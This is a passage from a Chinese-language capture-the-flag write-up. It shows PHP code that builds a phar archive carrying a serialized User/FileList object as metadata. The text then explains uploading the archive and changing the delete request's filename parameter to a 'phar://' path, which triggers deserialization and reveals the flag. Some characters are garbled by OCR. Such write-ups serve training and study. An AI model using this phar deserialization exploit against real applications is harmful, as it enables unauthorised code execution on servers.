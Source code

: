 ```php
        $this->funcs = array();
    }
}
@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new User();
$o->db = new FileList();
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("exp.txt", "test"); //添加要压缩的//签/3名自动计算
$phar->stopBuffering();
?>
```

![](img/2/5.png)

上传，点击/3删除，修改 payload

![](img/2/7.png)

在删除时使用`burpsite抓包`，`修改参数`，`即可得到flag`。

```
filename=phar://phar.png/exp.txt
```
